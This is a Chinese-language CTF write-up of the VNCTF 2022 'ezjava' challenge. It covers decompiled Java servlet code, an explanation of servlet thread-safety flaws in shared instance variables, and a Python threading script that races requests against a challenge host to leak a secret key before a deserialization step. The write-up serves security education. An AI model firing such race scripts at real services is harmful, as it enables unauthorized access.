 # VNCTF 2022-ezjava

### ！！！这题n年前做的了，实战找不到环境了，懂了线程那个的知识点就好



**javaSec-Servlet的线程安全问题
**刚开始有个任意文件读取，直接读Servlet文件反编译下先看HelloWorldServlet：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package servlet;

import entity.User;
import java.io.IOException;
import java.util.Base64;
import java.util.Base64.Decoder;
import javax.servlet.ServletException;
import javax.servlet.ServletOutputStream;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import util.Secr3t;
import util.SerAndDe;

@WebServlet(
    name = "HelloServlet",
    urlPatterns = {"/evi1"}
)
public class HelloWorldServlet extends HttpServlet {
    private volatile String name = "m4n_q1u_666";
    private volatile String age = "666";
    private volatile String height = "180";
    User user;

    public HelloWorldServlet() {
    }

    public void init() throws ServletException {
        this.user = new User(this.name, this.age, this.height);
    }

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String reqName = req.getParameter("name");
        if (reqName != null) {
            this.name = reqName;
        }

        if (Secr3t.check(this.name)) {
            this.Response(resp, "no vnctf2022!");
        } else {
            if (Secr3t.check(this.name)) {
                this.Response(resp, "The Key is " + Secr3t.getKey());
            }

        }
    }

    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        String key = req.getParameter("key");
        String text = req.getParameter("base64");
        if (Secr3t.getKey().equals(key) && text != null) {
            Decoder decoder = Base64.getDecoder();
            byte[] textByte = decoder.decode(text);
            User u = (User)SerAndDe.deserialize(textByte);
            if (this.user.equals(u)) {
                this.Response(resp, "Deserialize…… Flag is " + Secr3t.getFlag().toString());
            }
        } else {
            this.Response(resp, "KeyError");
        }

    }

    private void Response(HttpServletResponse resp, String outStr) throws IOException {
        ServletOutputStream out = resp.getOutputStream();
        out.write(outStr.getBytes());
        out.flush();
        out.close();
    }
}


```



**Secr3t.class**：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

package util;

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import org.apache.commons.lang3.RandomStringUtils;

public class Secr3t {
    private static final String Key = RandomStringUtils.randomAlphanumeric(32);
    private static StringBuffer Flag;

    private Secr3t() {
    }

    public static String getKey() {
        return Key;
    }

    public static StringBuffer getFlag() {
        Flag = new StringBuffer();
        InputStream in = null;

        try {
            in = Runtime.getRuntime().exec("/readflag").getInputStream();
        } catch (IOException var12) {
            var12.printStackTrace();
        }

        BufferedReader read = new BufferedReader(new InputStreamReader(in));

        try {
            String line = null;

            while((line = read.readLine()) != null) {
                Flag.append(line + "\n");
            }
        } catch (IOException var13) {
            var13.printStackTrace();
        } finally {
            try {
                in.close();
                read.close();
            } catch (IOException var11) {
                var11.printStackTrace();
                System.out.println("Secr3t : io exception!");
            }

        }

        return Flag;
    }

    public static boolean check(String checkStr) {
        return "vnctf2022".equals(checkStr);
    }
}


```

直接看他的check方法就好，我们再回到我们的那个servlet，可以看到这有两个判断，我们需要通过这两个判断来获取key值：

![](image/image_P1v_7UuU1T.png)



Servlet的线程安全问题

> Servlet实际上是一个单件，当我们第一次请求某个Servlet时，Servlet容器将会根据web.xml配 置文件或者是注解实例化这个Servlet类，之后如果又有新的客户端请求该Servlet时，则一般不 会再实例化该Servlet类，这说明了什么呢?简单来说，当多个用户一起访问时，得到的其实是 同一个Servlet实例，这样的话，他们对实例的成员变量的修改其实会影响到别人，所以在开发 的时候如果没有注意这个问题往往会有一些额安全问题，而往往Servlet的线程安全问题主要是 由于实例变量使用不当而引起



**ok，了解完原理我们来写个脚本进行竞争：**

```python
from concurrent.futures import thread
import requests
import threading

def thread1():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=wa1ki0")
        r.encoding = "utf-8"
        if r.text.find("The Key is")!=-1:
            print(r.text)

 
def thread2():
    host = "http://2f8095a8-05a4-42e1-ae3a-ceb7e81651f4.node4.buuoj.cn:81/"
    while True:
        r = requests.get(host+"evi1?name=vnctf2022")
        if r.text.find("The Key is")!=-1:
            print(r.text)

if __name__ == '__main__':
    thread1=threading.Thread(target=thread1)
    thread2=threading.Thread(target=thread2)
    thread1.start()
    thread2.start()
    thread1.join()
    thread2.join()



```

运行结果：

![](image/image_BY1hQh46-F.png)

key获得后会进行反序列化比较，其实只要反序列化一个要求的一模一样的类就好了：

![](image/image_XaJ71Juelo.png)

接着我们序列化一个类（transient关键字修饰的变量无法直接反序列化，所以在生产byte的时候需要重写一下writeObject，否则会自己的 User对象的height值为空) :

![](image/image_jyzFqrLZKM.png)

![](image/image_izYp-K8hjj.png)

传个参就好了最后：

![](image/image_o_oCpDS-eO.png)
